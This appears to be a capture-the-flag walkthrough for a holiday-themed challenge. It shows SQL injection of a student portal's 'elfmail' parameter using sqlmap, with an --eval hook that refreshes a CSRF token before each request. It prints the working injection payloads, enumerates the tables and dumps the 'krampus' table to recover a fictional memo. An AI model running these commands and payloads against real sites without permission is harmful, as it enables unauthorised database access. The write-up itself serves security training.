 # Retrieve Scraps of paper from Server

Looking at the website we see 2 pages that look like they use SQL: You can submit an application, `/apply.php`, or you can check the status, `check.php`. Thinking about how these work, applying probably runs some INSERT statement, whereas check is probably a SELECT statement. Since injecting into SELECT statements is more common, it's also easier to do with a lot of tools. so we'll focus on this form.

First we need to know how the form works, so we can open burp, set the proxy, etc. and submit the form with some example data.

We see 2 requests after we submit the form:

```
> GET /validator.php HTTP/1.1
> Host: studentportal.elfu.org
> Accept: */*
> Referer: https://studentportal.elfu.org/check.php

< HTTP/1.1 200 OK
< Content-Type: text/html; charset=UTF-8
< X-Powered-By: PHP/7.2.1
< 
< MTAwOTU3NjU3MjE2MTU3NzQ2MzM5NDEwMDk1NzY1Ny4yMTY=_MTI5MjI1ODAxMjM2NDgzMjMwNjQ1MDMwLjkxMg==
< 

> GET /application-check.php?elfmail=krampus%40elfu.ac&token=MTAwOTU3NjU3MjE2MTU3NzQ2MzM5NDEwMDk1NzY1Ny4yMTY%3D_MTI5MjI1ODAxMjM2NDgzMjMwNjQ1MDMwLjkxMg%3D%3D HTTP/1.1
> Host: studentportal.elfu.org
> Accept: */*
> Referer: https://studentportal.elfu.org/check.php

< [...]

```

(trimmed)

The actual form goes in the second request as GET parameter `elfmail`. We also have a `token` value that's just the response from `validator.php`. If we try to reuse this for another request we get the message 'Invalid or expired token!', so this is some CSRF token that we need to populate each request.

Let's run sqlmap against it. A start would be:

```
sqlmap -u 'https://studentportal.elfu.org/application-check.php?elfmail=AAA&token=BBB'
```

But of course we need to update the CSRF token. SQLMap has built in parameters `--csrf-token` and `--csrf-url` for doing this, so it seems like we should be able to do this:

```
sqlmap -u 'https://studentportal.elfu.org/application-check.php?elfmail=AAA&token=BBB' --csrf-token 'token' --csrf-url 'https://studentportal.elfu.org/validator.php'
```

But we get this error:

```
[..:..:..] [CRITICAL] anti-CSRF token 'token' can't be found at 'https://studentportal.elfu.org/validator.php'
```

So it seems like it's looking for the token to be as an `<input>` or as a URL param. This isn't going to work, so we'll have to manipulate the token value some other way. From the SQLMap docs:

```
Option: --eval

In case that user wants to change (or add new) parameter values, most probably because of some known dependency, he can provide to sqlmap a custom python code with option --eval that will be evaluated just before each request.

$ python sqlmap.py -u "http://www.target.com/vuln.php?id=1&hash=c4ca4238a0b9238\
20dcc509a6f75849b" --eval="import hashlib;hash=hashlib.md5(id).hexdigest()"
```

So we need to make a GET request then set the token to the response:

```python
import requests
token = requests.get('https://studentportal.elfu.org/validator.php').text
```

Then set that as the eval function:

```
$ sqlmap -u 'https://studentportal.elfu.org/application-check.php?elfmail=AAA&token=BBB' --eval 'import requests; token = requests.get('https://studentportal.elfu.org/validator.php').text'

[...]

sqlmap identified the following injection point(s) with a total of 189 HTTP(s) requests:
---
Parameter: elfmail (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: elfmail=AAA' AND 3693=3693 AND 'ObJp'='ObJp&token=AAA

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: elfmail=AAA' AND (SELECT 4447 FROM(SELECT COUNT(*),CONCAT(0x716b627871,(SELECT (ELT(4447=4447,1))),0x7170707871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'ByHL'='ByHL&token=AAA

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: elfmail=AAA' AND (SELECT 3959 FROM (SELECT(SLEEP(5)))cRnI) AND 'gKPu'='gKPu&token=AAA
---

```

Now we can start looking at the databaes. We can enumerate the following tables:

```
$ sqlmap -u 'https://studentportal.elfu.org/application-check.php?elfmail=AAA&token=BBB' --eval 'import requests; token = requests.get('https://studentportal.elfu.org/validator.php').text' --tables

[..:..:..] [WARNING] user aborted during enumeration. sqlmap will display partial output
Database: elfu
[3 tables]
+---------------------------------------+
| applications                          |
| krampus                               |
| students                              |
+---------------------------------------+

Database: information_schema
[8 tables]
+---------------------------------------+
| ALL_PLUGINS                           |
| APPLICABLE_ROLES                      |
| CHARACTER_SETS                        |
| COLLATIONS                            |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS                               |
| COLUMN_PRIVILEGES                     |
| ENABLED_ROLES                         |
+---------------------------------------+
```

Let's dump the contents of the `krampus` table:

```
$ sqlmap -u 'https://studentportal.elfu.org/application-check.php?elfmail=AAA&token=BBB' --eval 'import requests; token = requests.get('https://studentportal.elfu.org/validator.php').text' -T krampus --dump

Database: elfu
Table: krampus
[6 entries]
+----+-----------------------+
| id | path                  |
+----+-----------------------+
| 1  | /krampus/0f5f510e.png |
| 2  | /krampus/1cc7e121.png |
| 3  | /krampus/439f15e6.png |
| 4  | /krampus/667d6896.png |
| 5  | /krampus/adb798ca.png |
| 6  | /krampus/ba417715.png |
+----+-----------------------+
```

Each of these paths is an image on the server, all of which seem to be a fragment of paper. We can piece these together and see the final message:

```

From the desk of ....
Date: August 23, 20...

Memo to Self:

Finally! I've figured out how to destroy Christmas!
Santa has a brand new, cutting edge sleigh guidance technology, called the Super Sled-o-matic.

I've figured out a way to poison the data going into the system so that it will divert Santa's sled on Christmas Eve!

Santa will be unable to make the trip and the holiday season will be destroyed! Santa's own technology will undermine him!

That's what they deserve for not listening to my suggestions for supporting other holiday characters!

Bwahahahahaha!
```

